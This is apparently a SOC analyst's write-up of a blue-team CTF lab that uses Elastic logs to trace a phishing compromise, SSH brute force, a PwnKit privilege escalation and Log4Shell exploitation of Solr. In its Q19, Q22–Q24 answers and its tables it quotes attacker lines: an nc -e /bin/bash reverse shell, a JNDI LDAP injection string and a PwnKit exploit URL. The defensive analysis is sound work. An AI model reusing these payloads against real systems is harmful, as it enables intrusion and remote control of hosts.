

# ElasticCase Lab

# Table of Contents
- [ElasticCase Lab](#elasticcase-lab)
- [Context](#context)
- [Scenario](#scenario)
- [Questions](#questions)
- [Attack Chain](#attack-chain)
  * [Attack Tree](#attack-tree)
- [Artifacts](#artifacts)
- [Lab Insights](#lab-insights)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/elasticcase/](https://cyberdefenders.org/blueteam-ctf-challenges/elasticcase/)

Suggested tools: ELK, Kibana, Elastic

Tactics: Initial Access, Execution, Privilege Escalation, Defense Evasion, Credential Access, Discovery, Lateral Movement, Command and Control

# Scenario

An attacker was able to trick an employee into downloading a suspicious file and running it. The attacker compromised the system, along with that, The Security Team did not update most systems. The attacker was able to pivot to another system and compromise the company. As a SOC analyst, you are assigned to investigate the incident using Elastic as a SIEM tool and help the team to kick out the attacker.

**ELK Index Groups**

- `auditbeat`**-**→ System call & file integrity auditing (who did what on the host)
- `filebeat`**-**→ Log file shipping (application, system, and custom log files)
- `logs`**-**→ Generic data stream for all logs collected by Elastic Agent (modern replacement for many old Beat indices)
- `metrics`**-**→ System & service performance metrics (CPU, memory, disk, etc.)
- `packetbeat`**-**→ Network traffic analysis (protocols, flows, DNS, HTTP, etc.)
- `winlogbeat`**-**→ Windows Event Logs (Security, System, Application, etc.)

| Pattern | Era | What it is | Status today |
| --- | --- | --- | --- |
| `filebeat-*` | Old (Beats) | Classic Filebeat indices | Legacy |
| `winlogbeat-*` | Old (Beats) | Classic Winlogbeat indices | Legacy |
| `auditbeat-*` | Old (Beats) | Classic Auditbeat indices | Legacy |
| `packetbeat-*` | Old (Beats) | Classic Packetbeat indices | Legacy |
| **`logs-*`** | **New (Agent)** | **Unified logs data stream** (Elastic Agent) | **Current / Recommended** |
| **`metrics-*`** | **New (Agent)** | **Unified metrics data stream** (Elastic Agent) | **Current / Recommended** |

# Questions

Q1- Who downloads the malicious file which has a double extension?

Answer: `ahmed`

Reason: The user `ahmed` on host `DESKTOP-Q1SL9P2` downloaded and executed `Acount_details.pdf.exe`, a file using a double extension (`.pdf.exe`) to masquerade as a benign PDF document, at `2022-02-02 18:08:25.884 UTC` (initial execution via `msedge.exe`) with a follow-on process event at `2022-02-02 18:08:25.924 UTC`, both flagged by the Malware Detection Alert rule with critical severity and a risk score of 99.



Q2- What is the hostname he was using?

Answer: `DESKTOP-Q1SL9P2`

Reason: The compromised host used by `ahmed` was `DESKTOP-Q1SL9P2`, identified from the same Malware Detection Alert event that captured the double-extension file execution at `2022-02-02 18:08:25.884 UTC`.

Q3- What is the name of the malicious file?

Answer: `Acount_details.pdf.exe`

Reason: The malicious file executed on `DESKTOP-Q1SL9P2` was `Acount_details.pdf.exe`, a double-extension binary disguised as a PDF document, first observed at `2022-02-02 18:08:25.884 UTC`.

Q4- What is the attacker's IP address?

Answer: `192.168.1.10`

Reason: The analyzed process tree for `Acount_details.pdf.exe` on `DESKTOP-Q1SL9P2` shows a network start event at `2022-02-02 15:36:01.901 UTC` establishing an outbound connection to destination address `192[.]168[.]1[.]10` on port `443`, identifying this as the attacker's command-and-control IP; the process lineage traces `Acount_details.pdf.exe` back through `explorer.exe` and a terminated `userinit.exe`, confirming `msedge.exe` served only as the delivery vector while the malicious payload itself handled C2 communications.


Q5- Another user with high privilege runs the same malicious file. What is the username?

Answer: `cybery`

Reason: A second, higher-privileged user, `cybery`, executed the same malicious file `Acount_details.pdf.exe` on `DESKTOP-Q1SL9P2`, generating a wave of Malware Detection Alerts beginning at `2022-02-02 18:08:26.098 UTC` and continuing through `18:08:26.266 UTC`; Windows Security-Auditing Event ID 4672 confirms `cybery`'s elevated status, showing a special-privilege set (`SeDebugPrivilege`, `SeBackupPrivilege`, `SeRestorePrivilege`, `SeTakeOwnershipPrivilege`, `SeImpersonatePrivilege`, `SeSecurityPrivilege`) consistent with local administrator rights, first observed at `2022-02-02 14:35:18.744 UTC` and recurring across multiple logon sessions that day.


Q6- The attacker was able to upload a DLL file of size 8704. What is the file name?

Answer: `mCblHDgWP.dll`

Reason: The attacker dropped a malicious DLL, `mCblHDgWP.dll` (file size `8704` bytes), onto `DESKTOP-Q1SL9P2` under the `cybery` account, with the file first associated with the malicious `Acount_details.pdf.exe` process at `2022-02-02 18:08:26.317 UTC` and then loaded by `mmc.exe` at `2022-02-02 18:08:26.347 UTC`, both flagged as critical Malware Detection Alerts with a risk score of 99; the involvement of `mmc.exe` (Microsoft Management Console) is consistent with the earlier-observed Component Object Model Hijacking alert rule, suggesting this DLL is being loaded via COM hijacking rather than direct execution.

```sql
file.size: 8704 and file.extension : dll
```


Q7- What parent process name spawns cmd with NT AUTHORITY privilege and pid 10716?

Answer: `rundll32.exe`

Reason: The parent process `rundll32.exe` spawned `cmd.exe` (PID `10716`) running under the `SYSTEM` account (`NT AUTHORITY\SYSTEM`) on `DESKTOP-Q1SL9P2`, observed in two consecutive low-severity alerts at `2022-02-02 18:11:29.075 UTC` and `18:11:29.076 UTC` with a risk score of 21; `rundll32.exe` acting as the parent of a SYSTEM-level `cmd.exe` process is a LOLBin (living-off-the-land binary) pattern consistent with privilege escalation or defense evasion, likely tied to the COM hijacking DLL (`mCblHDgWP.dll`) identified in Q6 being leveraged to gain SYSTEM-level command execution.

```sql
process.name : *cmd* and process.pid : 10716
```


Q8- The previous process was able to access a registry. What is the full path of the registry?

Answer: `HKLM\SYSTEM\ControlSet001\Control\Lsa\FipsAlgorithmPolicy\Enabled`

Reason: The `rundll32.exe` → `cmd.exe` process chain (PID `10716`) accessed the registry key `HKLM\SYSTEM\ControlSet001\Control\Lsa\FipsAlgorithmPolicy\Enabled` on `DESKTOP-Q1SL9P2` at `2022-02-02 16:58:17.974 UTC`, querying the `Enabled` value under the LSA's FIPS Algorithm Policy; this key is commonly checked by credential-access and cryptographic tooling (including Mimikatz-style utilities) to determine whether FIPS-compliant cryptography is enforced before selecting which hashing/encryption routines to use against LSA secrets, consistent with the credential access phase of this intrusion.


Q9- PowerShell process with `pid` 8836 changed a file in the system. What was that filename?

Answer: `ModuleAnalysisCache`

Reason: The PowerShell process (PID `8836`), spawned as part of the `rundll32.exe` → `cmd.exe` → `powershell.exe` chain on `DESKTOP-Q1SL9P2`, modified the file `ModuleAnalysisCache` located at `C:\Windows\system32\config\systemprofile\AppData\Local\Microsoft\Windows\PowerShell\ModuleAnalysisCache` (file size `55723` bytes); the path under `systemprofile` confirms this PowerShell instance executed under the `SYSTEM` context, consistent with the SYSTEM-level privilege escalation already established via `rundll32.exe` in Q7, and the module analysis cache modification reflects PowerShell module-loading activity tied to the attacker's post-exploitation tooling.

```sql
process.name : *cmd* and process.pid : 10716 and event.type : "change" 
```


Q10- PowerShell process with `pid` 11676 created files with the ps1 extension. What is the first file that has been created?

Answer: `__PSScriptPolicyTest_bymwxuft.3b5.ps1`

Reason: The PowerShell process (PID `11676`) on `DESKTOP-Q1SL9P2` created two `__PSScriptPolicyTest` files as it tested script execution policy; the first, `__PSScriptPolicyTest_bymwxuft.3b5.ps1`, was created at `2022-02-02 17:08:46.139 UTC`, followed by `__PSScriptPolicyTest_nwg1htqg.4xd.ps1` at `2022-02-02 17:11:10.591 UTC` and a `powershell.exe.log` transcript file at `17:11:15.109 UTC`; these auto-generated policy-test artifacts confirm the attacker's PowerShell session was actively attempting to execute `.ps1` scripts against the host's execution policy.


Q11- What is the machine's IP address that is in the same LAN as a windows machine?

Answer: `192.168.10.30`

Reason: The compromised host `DESKTOP-Q1SL9P2` (`192[.]168[.]10[.]10`) was observed making the overwhelming majority of its outbound connections (`76.3%`, `194`/`216` matched records) to `192[.]168[.]10[.]30`, a second machine on the same `192.168.10.0/24` LAN segment, first captured at `2022-02-02 18:00:55.551 UTC`; this heavy, concentrated internal traffic pattern to a same-subnet host is consistent with the attacker staging lateral movement toward a second target within the corporate network.

```sql
destination.ip contains 192.168.10*
```


Q12- The attacker logged into the Ubuntu machine after a brute force attack. What is the username he was successfully login with?

Answer: `salem`

Reason: Following the lateral movement pivot identified in Q11, the attacker brute-forced SSH authentication against the `ubuntu` host from source `192[.]168[.]10[.]10` (`DESKTOP-Q1SL9P2`), generating `18` failed login attempts before achieving `11` successful logins as the user `salem`, with the last successful authentication recorded at `2022-02-02 17:43:45.000 UTC` and the last failure just minutes earlier at `2022-02-02 17:27:13.000 UTC`; the source IP of both the successful and failed attempts confirms the compromised Windows host was the launch point for this brute-force attack against the Ubuntu machine, extending the intrusion cross-platform.


Q13- After that attacker downloaded the exploit from the GitHub repo using `wget`. What is the full URL of the repo?

Answer: `hxxps://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py`

Reason: After successfully authenticating as `salem` on the Ubuntu host (`192[.]168[.]10[.]30`), the attacker used `wget` to download a Python exploit for CVE-2021-4034 ("PwnKit," a local privilege escalation vulnerability in Polkit's `pkexec`) from the GitHub-hosted repository `hxxps://raw[.]githubusercontent[.]com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py`, first observed at `2022-02-02 17:44:54.561 UTC` and repeated at `17:44:55.022 UTC`, indicating the attacker was staging a local privilege escalation exploit on the newly compromised Linux host.


Q14- After The attacker runs the exploit which spawns a new process called `pkexec`, what is the process's md5 hash?

Answer: `3a4ad518e9e404a6bad3d39dfebaf2f6`

Reason: Executing the CVE-2021-4034 (PwnKit) exploit spawned a `pkexec` process running as `root` on the `ubuntu` host, first observed at `2022-02-02 17:45:06.558 UTC` and again at `17:45:06.586 UTC`, with an MD5 hash of `3a4ad518e9e404a6bad3d39dfebaf2f6`; the process running under the `root` user confirms the local privilege escalation succeeded, granting the attacker root-level access on the Linux host.


Q15- Then attacker gets an interactive shell by running a specific command on the process id 3011 with the root user. What is the command?

Answer: `bash -i`

Reason: The attacker obtained an interactive root shell on the `ubuntu` host by running `bash -i` as process ID `3011` under the `root` user, first observed at `2022-02-02 17:46:08.041 UTC` and repeated at `17:46:16.993 UTC`; the `-i` flag forces bash into interactive mode, giving the attacker a persistent, fully interactive command shell with root privileges on the compromised Linux host.

```sql
process.pid : 3011 and user.name : root
```


Q16- What is the hostname which alert `signal.rule.name`: "Netcat Network Activity"?

Answer: `CentOS`

Reason: A "Netcat Network Activity" alert fired on a new host, `CentOS`, at `2022-02-03 02:09:22.582 UTC`, triggered by the user `solr` spawning the `nc` (netcat) process; this alert (medium severity, risk score `47`) marks the attacker's pivot to a third machine in the environment, with the `solr` username suggesting the entry point on this host was an Apache Solr service, a platform with several known remote code execution vulnerabilities.


Q17- What is the username who ran `netcat`?

Answer: `solr`

Reason: The user `solr` ran `netcat` (`nc`) on the `CentOS` host, triggering the Netcat Network Activity alert at `2022-02-03 02:09:22.582 UTC`, as established in Q16.

Q18- What is the parent process name of netcat?

Answer: `java`

Reason: The parent process of `nc` (PID `3875`, `/usr/bin/nc`, executed by `solr`, PPID `3556`) was `java`, first observed at `2022-02-03 02:04:04.574 UTC`; this confirms the Apache Solr Java service itself was the vector for the intrusion, spawning `netcat` directly to establish outbound network connectivity, a pattern consistent with exploitation of a Solr remote code execution vulnerability leading to reverse-shell or bind-shell activity.


Q19- If you focus on `nc` process, you can get the entire command that the attacker ran to get a reverse shell. Write the full command?

Answer: `nc -e /bin/bash 192.168.1.10 9999`

Reason: The attacker's `nc` process ran the command `nc -e /bin/bash 192.168.1.10 9999` on the `CentOS` host as user `solr`, first observed at `2022-02-03 01:57:21.308 UTC` (PID `3875`) and repeated at `01:57:21.782 UTC` (PID `3877`) and `02:04:04.574 UTC` (PID `3875`); the `-e /bin/bash` flag pipes a bash shell directly to the network socket, giving the attacker a full reverse shell back to `192[.]168[.]1[.]10` on port `9999` — the same IP identified as the C2 server in Q4, confirming this CentOS/Solr compromise is connected to the same attacker infrastructure as the initial Windows intrusion.

```sql
process.hash.md5: b2f3e29e8158be8b6fc8fabf29e269a3
host.name: CentOS
user.name: solr
process.command_line: nc -e /bin/bash 192.168.1.10 9999

@timestamp: 2022-02-03T01:57:21.308Z  process.pid: 3875
@timestamp: 2022-02-03T01:57:21.782Z  process.pid: 3877
@timestamp: 2022-02-03T02:04:04.574Z  process.pid: 3875
```


Q20- From the previous three questions, you may remember a famous java vulnerability. What is it?

Answer: Log4Shell

Reason: The Java process spawning `netcat` on the `CentOS`/Apache Solr host points to Log4Shell (CVE-2021-44228), the critical remote code execution vulnerability in the Apache Log4j logging library disclosed in December 2021; Apache Solr bundles Log4j for its logging, and an attacker-controlled JNDI lookup string sent to a vulnerable Solr endpoint would trigger the Java process itself to fetch and execute attacker code, explaining why `java` (not a web shell or script interpreter) directly spawned the `nc` reverse shell observed in Q18/Q19.

Q21- What is the entire log file path of the "solr" application?

Answer: `/var/solr/logs/solr.log`

Reason: The Apache Solr application log on the `CentOS` host is written to `/var/solr/logs/solr.log`, confirmed via `Filebeat`-collected log entries spanning the exploitation window, with `103` matching hits and the earliest of these visible entries at `2022-02-03 01:49:28.567 UTC`; this log path is the primary source for reconstructing the Log4Shell exploitation attempt against the Solr service identified in Q20.

```sql
log.file.path: *solr*
```


Q22- What is the path that is vulnerable to `log4j`?

Answer: `/admin/cores`

Reason: The vulnerable Log4Shell attack surface was Solr's `/admin/cores` endpoint, confirmed by a Solr log entry at `2022-02-03 01:57:20.941 UTC` showing an HTTP request with `path=/admin/cores` and a malicious query parameter `params={foo=${jndi:ldap://192.168.1.10:1389/Exploit}}`; this JNDI LDAP lookup string is the classic Log4Shell (CVE-2021-44228) exploitation pattern, where Log4j evaluates the attacker-controlled `${jndi:ldap://...}` expression embedded in a logged parameter and reaches out to the attacker's LDAP server at `192[.]168[.]1[.]10:1389` to fetch and execute malicious Java code, matching the same C2 IP identified in Q4 and Q19.

```sql
message : 2022-02-03 01:57:20.941 INFO  (qtp1954406292-22) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={foo=${jndi:ldap://192.168.1.10:1389/Exploit}} status=0 QTime=0
```

Q23- What is the GET request parameter used to deliver log4j payload?

Answer: `foo`

Reason: The GET request parameter used to deliver the Log4Shell payload against the `/admin/cores` endpoint was `foo`, as shown in the Solr log entry from Q22 (`params={foo=${jndi:ldap://192.168.1.10:1389/Exploit}}`, `2022-02-03 01:57:20.941 UTC`); the attacker's JNDI/LDAP exploit string was placed as the value of this arbitrary parameter name, which Solr passed to Log4j for logging, triggering the vulnerable string evaluation.

Q24- What is the JNDI payload that is connected to the LDAP port?

Answer: `{foo=${jndi:ldap://192.168.1.10:1389/Exploit}}`

Reason: The full JNDI payload delivered against the vulnerable Solr endpoint was `{foo=${jndi:ldap://192.168.1.10:1389/Exploit}}`, captured in the Solr log at `2022-02-03 01:57:20.941 UTC`; this string forces the vulnerable Log4j instance to perform a JNDI lookup against the attacker-controlled LDAP server at `192[.]168[.]1[.]10` on port `1389`, retrieving the `Exploit` reference used to load and execute attacker-supplied Java code on the Solr host.

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| 2022-02-02 14:35:18.744 | Privilege Escalation | EventID 4672 confirms cybery holds admin-level privilege set (SeDebugPrivilege, SeBackupPrivilege, etc.) on `DESKTOP-Q1SL9P2` | T1078.003 |
| 2022-02-02 18:08:25.884 | Initial Access | User ahmed downloads/executes double-extension malicious file Acount_details.pdf.exe via msedge.exe | T1204.002, T1036.007 |
| 2022-02-02 18:08:25.924 | Execution | Acount_details.pdf.exe executes as its own process | T1204.002 |
| 2022-02-02 18:08:26.098 | Execution | High-privilege user cybery also executes Acount_details.pdf.exe (9 critical alerts) | T1204.002 |
| 2022-02-02 18:08:26.317 | Defense Evasion | Acount_details.pdf.exe drops mCblHDgWP.dll (8704 bytes) | T1027, T1105 |
| 2022-02-02 18:08:26.347 | Persistence | mmc.exe loads mCblHDgWP.dll via COM hijacking | T1546.015 |
| 2022-02-02 16:58:17.974 | Credential Access | rundll32.exe → cmd.exe (SYSTEM, PID 10716) queries `HKLM\SYSTEM\ControlSet001\Control\Lsa\FipsAlgorithmPolicy\Enabled` | T1012, T1552.002 |
| 2022-02-02 17:08:46.139 | Execution | PowerShell (PID 11676) creates __PSScriptPolicyTest_bymwxuft.3b5.ps1 | T1059.001 |
| 2022-02-02 17:11:10.591 | Execution | Second policy-test script __PSScriptPolicyTest_nwg1htqg.4xd.ps1 created | T1059.001 |
| 2022-02-02 18:11:29.075 | Privilege Escalation | rundll32.exe spawns cmd.exe running as NT AUTHORITY\SYSTEM (PID 10716) | T1134 |
| 2022-02-02 18:00:55.551 | Discovery | Heavy internal scan/connections from `DESKTOP-Q1SL9P2` to `192.168.10.30` (same-LAN pivot target) | T1046, T1018 |
| 2022-02-02 17:27:13.000 | Credential Access | SSH brute-force final failed attempt against ubuntu (salem) from `192.168.10.10` | T1110 |
| 2022-02-02 17:43:45.000 | Lateral Movement | Successful SSH login as salem on ubuntu from `192.168.10.10` | T1078, T1021.004 |
| 2022-02-02 17:44:54.561 | Command and Control | wget downloads PwnKit exploit (CVE-2021-4034) from hxxps://raw[.]githubusercontent[.]com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py | T1105 |
| 2022-02-02 17:45:06.558 | Privilege Escalation | pkexec spawned as root via PwnKit (CVE-2021-4034) | T1068 |
| 2022-02-02 17:46:08.041 | Execution | Interactive root shell obtained via bash -i (PID 3011) | T1059.004 |
| 2022-02-03 01:57:20.941 | Initial Access | Log4Shell (CVE-2021-44228) JNDI payload delivered to Solr `/admin/cores` endpoint via foo parameter on CentOS | T1190 |
| 2022-02-03 01:57:21.308 | Command and Control | java spawns nc -e `/bin/bash` `192.168.1.10` 9999 reverse shell (solr) | T1071, T1219 |
| 2022-02-03 02:09:22.582 | Command and Control | "Netcat Network Activity" alert fires for solr on CentOS | T1571 |

## Attack Tree

```bash
[Phishing Delivery]  ← attacker → ahmed (DESKTOP-Q1SL9P2)
    └── msedge.exe delivers Acount_details.pdf.exe  ← double extension masquerade
        └── Acount_details.pdf.exe executes
            ├── [Stage 1 — Windows Compromise]
            │   ├── cybery (high-priv user) also runs Acount_details.pdf.exe
            │   ├── drops mCblHDgWP.dll (8704 bytes)
            │   │   └── mmc.exe loads DLL  ← COM hijacking persistence
            │   └── rundll32.exe
            │       └── cmd.exe (NT AUTHORITY\SYSTEM, PID 10716)
            │           ├── queries HKLM\...\Lsa\FipsAlgorithmPolicy\Enabled  ← credential/crypto recon
            │           └── powershell.exe (PID 11676 / 8836)
            │               ├── ModuleAnalysisCache modified
            │               └── __PSScriptPolicyTest_*.ps1 created (x2)
            ├── [Stage 2 — Lateral Movement: LAN Discovery]
            │   └── DESKTOP-Q1SL9P2 → 192[.]168[.]10[.]30 (76.3% of traffic)  ← same-subnet pivot target
            │       └── SSH brute force against ubuntu
            │           └── successful login as salem
            │               └── wget hxxps://raw[.]githubusercontent[.]com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py
            │                   └── pkexec spawned as root  ← PwnKit (CVE-2021-4034)
            │                       └── bash -i (PID 3011)  ← interactive root shell
            └── [Stage 3 — Separate Vector: Log4Shell on CentOS/Solr]
                └── HTTP GET /admin/cores?foo=${jndi:ldap://192[.]168[.]1[.]10:1389/Exploit}  ← CVE-2021-44228
                    └── java process (Solr) resolves JNDI/LDAP callback
                        └── java spawns nc -e /bin/bash 192[.]168[.]1[.]10 9999  ← solr user, reverse shell
                            └── C2: 192[.]168[.]1[.]10  ← same attacker infra as Windows chain (Q4)
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Delivery | Malicious file | `Acount_details.pdf.exe` (double extension) |
|  | Delivery process | `msedge.exe` |
|  | Victim user | `ahmed` |
| Dropped File | Persistence DLL | `mCblHDgWP.dll` (8704 bytes) |
|  | System artifact | `ModuleAnalysisCache` (`C:\Windows\system32\config\systemprofile\AppData\Local\Microsoft\Windows\PowerShell\ModuleAnalysisCache`) |
|  | PS policy test file | `__PSScriptPolicyTest_bymwxuft.3b5.ps1` |
|  | PS policy test file | `__PSScriptPolicyTest_nwg1htqg.4xd.ps1` |
|  | PS transcript | `powershell.exe.log` |
| Persistence | Technique | COM hijacking via `mmc.exe` loading `mCblHDgWP.dll` |
| Credential Access | Registry key | `HKLM\SYSTEM\ControlSet001\Control\Lsa\FipsAlgorithmPolicy\Enabled` |
| Privilege Escalation | High-priv account | `cybery` (admin-level privilege set) |
|  | LOLBin abuse | `rundll32.exe` → `cmd.exe` as NT AUTHORITY\SYSTEM (PID `10716`) |
|  | Exploit | `CVE-2021-4034` (PwnKit, Polkit `pkexec`) |
|  | Exploit hash | `3a4ad518e9e404a6bad3d39dfebaf2f6` (`pkexec`) |
| Host Indicators | Windows host | `DESKTOP-Q1SL9P2` (`192.168.10.10`) |
|  | Linux host (Ubuntu) | `ubuntu` (`192.168.10.30`) |
|  | Linux user | `salem` |
|  | Linux host (CentOS) | `CentOS` |
|  | Solr user | `solr` |
| Lateral Movement | Technique | SSH brute force → `ubuntu` (18 failures / 11 successes) |
|  | Pivot target | `192.168.10.30` (76.3% of `DESKTOP-Q1SL9P2` outbound traffic) |
| Exploitation | Vulnerability | `CVE-2021-44228` (Log4Shell) |
|  | Vulnerable endpoint | `/admin/cores` |
|  | GET parameter | `foo` |
|  | JNDI payload | `{foo=${jndi:ldap://192.168.1.10:1389/Exploit}}` |
| C2 | C2 IP (Windows chain) | `192.168.1.10` (port `443`) |
|  | C2 IP (Linux chain) | `192.168.1.10` (port `9999`) |
|  | Reverse shell command | `nc -e /bin/bash 192.168.1.10 9999` |
|  | Reverse shell hash | `b2f3e29e8158be8b6fc8fabf29e269a3` (`nc`) |

# Lab Insights

- Two independent entry vectors, one shared C2. The Windows phishing chain (double-extension lure) and the CentOS Log4Shell exploitation appear to be separate initial access paths with no direct process lineage connecting them, yet both terminate in outbound connections to the same C2 IP (192.168.1.10). This is the kind of link that's invisible from any single host's process tree and only surfaces by deliberately cross-referencing network destination fields across otherwise unrelated alert clusters — a reminder that "which alerts share infrastructure" is its own hunting question, separate from "what happened on this host."
- Old, patched CVEs remain the actual path of least resistance. Both privilege escalation events in this lab — PwnKit (CVE-2021-4034) on Ubuntu and Log4Shell (CVE-2021-44228) on Solr/CentOS — were long-public, well-patched vulnerabilities at the time of this intrusion, not novel exploits. The lab's framing ("Security Team did not update most systems") is less about attacker sophistication and more about how a single unpatched dependency (Log4j bundled inside Solr) creates an entry point invisible to anyone not tracking third-party library versions independently of the host OS.
- LOLBins and native tooling did the heavy lifting, not custom malware. Beyond the single dropped DLL, every escalation and lateral-movement step used binaries already present on the system — rundll32.exe to reach SYSTEM, mmc.exe for COM-hijack persistence, wget/nc/bash -i/pkexec on Linux. This kept the attacker's unique-artifact footprint small; the DLL hash and the two exploit hashes are nearly the only static IOCs in the entire chain, meaning behavioral/process-lineage detection carried far more weight here than signature matching.
- Each log source told a structurally different piece of the story. Elastic Defend's entity_id/process-tree view reconstructed lineage and file/registry/network touches per process instance; Winlogbeat's PrivilegeList and Authentications view supplied account-privilege and brute-force context that the endpoint agent didn't capture; Filebeat's log.file.path-tagged application logs (Solr) were the only source that actually contained the exploit payload text. No single data source covered the full kill chain — the investigation required deliberately switching data views/indices at each stage transition rather than treating one tool as sufficient.